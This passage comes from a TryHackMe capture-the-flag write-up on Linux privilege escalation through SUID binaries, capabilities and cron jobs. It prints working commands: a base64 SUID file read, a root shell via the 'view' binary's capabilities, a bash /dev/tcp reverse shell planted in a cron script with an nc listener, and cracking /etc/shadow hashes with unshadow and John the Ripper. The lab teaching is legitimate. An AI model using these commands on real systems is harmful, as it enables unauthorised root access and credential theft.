       - With this, you can use base64 to read it (since it has a SUID bit allowing you to run it even though you don't have root privileges.).
        - ```base64 ./home/ubuntu/flag3.txt | base64 -d```

![base64 SUID](https://github.com/ryangreggw/THM-BOXES/assets/25268281/6536c430-6890-43cd-96fe-4564c61daf40)
![passwd txt](https://github.com/ryangreggw/THM-BOXES/assets/25268281/9a2a3d64-1ee3-478b-96de-d6aa80e2c7fb)
![unshadow command](https://github.com/ryangreggw/THM-BOXES/assets/25268281/b6093246-40cd-40d7-8417-c896a56c0bb9)
![johntheripper](https://github.com/ryangreggw/THM-BOXES/assets/25268281/53fcfd26-98bc-40bb-b4ca-36abbf6930f6)
![base64 SUID bit](https://github.com/ryangreggw/THM-BOXES/assets/25268281/1b52b08d-11dc-40ec-886c-e9e6c73f38ee)

### ***# TASK 8: PRIVILEGE ESCALATION: CAPABILITIES***
- The first questions asks us how many binaries have set capabilities? In order to find out, we use:
  - ```getcap -r / 2>/dev/null```
  - It should return 6 results. 
  - Note the pathway for view. *
  - Move into the ubuntu directory. 
- Now that we know view can be used through its capabilities, we're going to use gtfobins and see what we can do with view. 
  - On gtfobins, type in view, click on "capabilities" and we're given the command: 
    - ```./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```
    - If you execute this, a shell should open. Use ```whoami``` to see what user you are. You should now be root. 
      - If it did not execute, you're probably not in the Ubuntu directory. 
- With root privilege, you can now use the find command: 
  - ```find -name flag4.txt```
  - Last, cat the file to get the answer. 

![capabilities view pwd](https://github.com/ryangreggw/THM-BOXES/assets/25268281/5a0a5a06-32d5-4522-a3b1-2e1eba4fff7b)
![getcap-r  root privilege](https://github.com/ryangreggw/THM-BOXES/assets/25268281/f21f6843-46bb-4ac8-9658-3e026b0f707c)

### ***# TASK 9: PRIVILEGE ESCALATION: CRON JOBS***
- The purpose of crontabs is automation. You schedule a particular task to run at certain intervals. 
- In order to view the flag5.txt file, we're going to need to ssh into karen's machine, set up a listener on our machine (attacking machine), and create a reverse shell script in a crontabs file. For this one, we're literally going to follow THM. 
  1. Open up a second tab.
  2. SSH into Karen's machine. 
  3. Run: ```cat /etc/crontab``` to find out what cron jobs are running. There is only one with a direct file path, so we'll use it. 
  4. Edit the backup.sh file by deleting everything except the shebang and put in your listener. 
      - You can use revshells.com to easily create one. 
      - It should look something like: 
        - ```/bin/bash -i >& /dev/tcp/<your-ip>/<port # you want to listen on> 0>&1```
        - Lastly, make the file executable. 
          - chmod +x backup.sh
  5. Go to your other tab now and start a listener:
     - ```nc -lvnp <port # you used in the reverseshell>```
     - It may take a few seconds, but you should connect to the target machine and be logged in as root. 
  6. To locate the flag5.txt we can use the find command: 
      - Find -name flag5.txt, and it should return ```./home/ubuntu/flag5.txt```. 
      - If the command isn't working, try moving to the root directory. 
      - Since we have root privilege, you can just cat that path. 
  7. The last task is to find Matt's password. For this task, reference the SUID box. 
      - Create a file with a copy of the ```/etc/passwd``` data and ```/etc/shadow``` data. 
      - Use ```"unshadow"``` command to combine the two files into one. 
      - Lastly, use john the ripper to crack the hashed password. 
